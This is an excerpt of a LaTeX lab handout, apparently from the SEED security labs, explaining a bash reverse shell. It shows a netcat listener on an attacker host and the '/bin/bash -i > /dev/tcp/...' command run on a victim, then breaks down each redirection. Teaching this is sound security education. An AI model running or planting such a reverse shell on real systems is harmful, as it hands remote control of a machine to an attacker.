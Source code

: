 \begin{lstlisting}[backgroundcolor=]
           +---------------------------------------------------+ 
           | (*@\textbf{On 10.9.0.1 (attcker)}@*)                             |
           |                                                   | 
           | $ nc -lnv 9090                                    |  
           | Listening on 0.0.0.0 9090                         |  
           | Connection received on 10.9.0.5 49382             |  
           | $   <--+ (*@\textbf{This shell runs on 10.9.0.5}@*)              | 
           |                                                   |  
           +---------------------------------------------------+  
          
           +---------------------------------------------------+  
           | (*@\textbf{On 10.9.0.5 (victim)}@*)                              |
           |                                                   | 
           |$ /bin/bash -i > /dev/tcp/10.9.0.1/9090 0<&1 2>&1  | 
           |                                                   | 
           +---------------------------------------------------+
\end{lstlisting}

We provide a brief description on the reverse shell command in the following.
Detailed explanation can be found in the SEED book.

\begin{itemize}
\item \texttt{"/bin/bash -i"}: \texttt{i} stands for interactive, meaning that the shell must be
  interactive (must provide a shell prompt)

\item \texttt{"> /dev/tcp/10.9.0.1/9090"}: This causes the output (\texttt{stdout}) of the shell
  to be redirected to the tcp connection to \texttt{10.9.0.1}'s port \texttt{9090}.
  The output \texttt{stdout} is represented by file descriptor number~1.

\item \texttt{"0<\&1"}: File descriptor 0 represents the standard input (\texttt{stdin}). This causes
  the  \texttt{stdin} for the shell to be obtained from the tcp connection.

\item \texttt{"2>\&1"}: File descriptor 2 represents standard error \texttt{stderr}. This
  causes the error output to be redirected to the tcp connection.
\end{itemize}

In summary, \texttt{"/bin/bash -i > /dev/tcp/10.9.0.1/9090 0<\&1 2>\&1"} starts a
\texttt{bash} shell, with its input coming from a tcp connection, and its standard
and error outputs being
redirected to the same tcp connection. 

